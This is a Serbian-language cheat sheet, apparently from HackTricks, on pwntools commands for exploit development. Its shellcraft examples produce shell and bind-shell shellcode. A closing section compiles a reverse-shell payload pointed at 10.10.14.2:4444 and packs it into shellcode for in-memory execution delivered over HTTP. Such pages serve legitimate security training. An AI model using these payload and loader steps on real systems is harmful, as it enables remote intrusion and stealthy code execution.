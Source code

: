 # PwnTools

{{#include ../../../banners/hacktricks-training.md}}
```
pip3 install pwntools
```
## Pwn asm

Dobijte **opcodes** iz linije ili fajla.
```
pwn asm "jmp esp"
pwn asm -i <filepath>
```
**Moguće je izabrati:**

- tip izlaza (raw,hex,string,elf)
- kontekst izlazne datoteke (16,32,64,linux,windows...)
- izbegavati bajtove (prelomi reda, null, lista)
- izaberite encoder, debug-ujte shellcode koristeći gdb, pokrenite izlaz

## **Pwn checksec**

Checksec skripta
```
pwn checksec <executable>
```
## Pwn constgrep

## Pwn cyclic

Dobijte obrazac
```
pwn cyclic 3000
pwn cyclic -l faad
```
**Može se izabrati:**

- Korišćeni alfabet (po podrazumevanju: mala slova)
- Dužina jedinstvenog patterna (podrazumevano 4)
- kontekst (16,32,64,linux,windows...)
- Uzmi offset (-l)

## Pwn debug

Prikači GDB na proces
```
pwn debug --exec /bin/bash
pwn debug --pid 1234
pwn debug --process bash
```
**Moguće izabrati:**

- Po executable, po name ili po pid context (16,32,64,linux,windows...)
- gdbscript za izvršavanje
- sysrootpath

## Pwn disablenx

Onemogućite nx za binary
```
pwn disablenx <filepath>
```
## Pwn disasm

Disasembluj hex opcodes
```
pwn disasm ffe4
```
**Može se odabrati:**

- context (16,32,64,linux,windows...)
- base addres
- color(default)/no color

## Pwn elfdiff

Prikazuje razlike između 2 fajla
```
pwn elfdiff <file1> <file2>
```
## Pwn hex

Dobijte heksadecimalnu reprezentaciju
```bash
pwn hex hola #Get hex of "hola" ascii
```
## Pwn phd

Dobij hexdump
```
pwn phd <file>
```
**Može se izabrati:**

- Broj bajtova za prikaz
- Broj bajtova po liniji; istaknuti bajt
- Preskočiti bajtove na početku

## Pwn pwnstrip

## Pwn scrable

## Pwn shellcraft

Nabavite shellcodes
```
pwn shellcraft -l #List shellcodes
pwn shellcraft -l amd #Shellcode with amd in the name
pwn shellcraft -f hex amd64.linux.sh #Create in C and run
pwn shellcraft -r amd64.linux.sh #Run to test. Get shell
pwn shellcraft .r amd64.linux.bindsh 9095 #Bind SH to port
```
**Možete odabrati:**

- shellcode i argumenti za shellcode
- izlazna datoteka
- format izlaza
- debug (prikači dbg na shellcode)
- pre (debug trap before code)
- posle
- izbegavati korišćenje opcodes (default: not null and new line)
- Pokreni shellcode
- Boja / bez boje
- lista syscalls
- lista mogućih shellcodes
- Generiši ELF kao shared library

## Pwn template

Preuzmi python šablon
```
pwn template
```
**Moguće je izabrati:** host, port, user, pass, path and quiet

## Pwn unhex

Od hex do string
```
pwn unhex 686f6c61
```
## Pwn update

Da biste ažurirali pwntools
```
pwn update
```
## ELF → pakovanje raw shellcode-a (loader_append)

Pwntools može pretvoriti samostalni ELF u jedinstveni raw shellcode blob koji sam mapira svoje segmente i prebaci izvršavanje na originalni entrypoint. Ovo je idealno za memory-only loadere (npr. Android aplikacije koje pozivaju JNI da izvrše preuzete bajtove).

Tipični pipeline (amd64 primer)

1) Izgradite statički, position‑independent payload ELF (musl preporučen zbog prenosivosti):
```bash
musl-gcc -O3 -s -static -o exploit exploit.c \
-DREV_SHELL_IP="\"10.10.14.2\"" -DREV_SHELL_PORT="\"4444\""
```
2) Pretvori ELF → shellcode pomoću pwntools:
```python
# exp2sc.py
from pwn import *
context.clear(arch='amd64')
elf = ELF('./exploit')
sc = asm(shellcraft.loader_append(elf.data, arch='amd64'))
open('sc','wb').write(sc)
print(f"ELF size={len(elf.data)} bytes, shellcode size={len(sc)} bytes")
```
3) Dostavite sc loaderu u memoriji (npr. preko HTTP[S]) i izvršite unutar procesa.

Napomene
- loader_append ugrađuje originalni ELF program u shellcode i emituje mali loader that mmaps the segments and jumps to the entry.
- Budite eksplicitni u vezi arhitekture preko context.clear(arch=...). arm64 je čest na Androidu.
- Obezbedite da kod vašeg payload‑a bude position‑independent i izbegavajte pretpostavke o procesu ASLR/NX.

## References

- [Pwntools](https://docs.pwntools.com/en/stable/)
- [CoRPhone – ELF→shellcode pipeline used for Android in-memory execution](https://github.com/0xdevil/corphone)

{{#include ../../../banners/hacktricks-training.md}}
